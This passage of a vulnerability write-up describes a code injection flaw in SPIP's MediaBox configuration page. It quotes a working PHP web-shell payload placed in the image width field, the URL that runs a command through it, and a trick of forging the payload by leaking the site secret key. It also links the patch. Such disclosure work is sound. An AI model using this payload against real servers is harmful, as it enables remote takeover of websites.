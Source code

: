 <img class="img_med" src="meme-rce-webmestre.png" alt="meme-rce-webmestre">

While visiting `/ecrire/?exec=configurer_mediabox`, it was possible to change the appearance of images on the website for all users. Many parameters suffered from the same code injection. This attack can be done from the browser, it only requires the attacker to change the width for pictures from `600px` to `600px";//<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); }?>`. Then, visit the following page: `/ecrire/?exec=navigation&menu=menu_edition&cmd=id`

Patch: https://git.spip.net/spip/mediabox/commit/d3f311ce800d533053bc66b357e26881d930bcc7

One more cool trick is that even though this is only reachable as a webmestre, if an attacker is able to read files on the remote server, leaking the site secret key is enough to forge the same payload and submit it with author rights! But it's patched now, so this `was` a cool trick.. :x

Injection point in the MediaBox page:

<img class="img_med" src="rce-mediabox.png" alt="rce-mediabox">
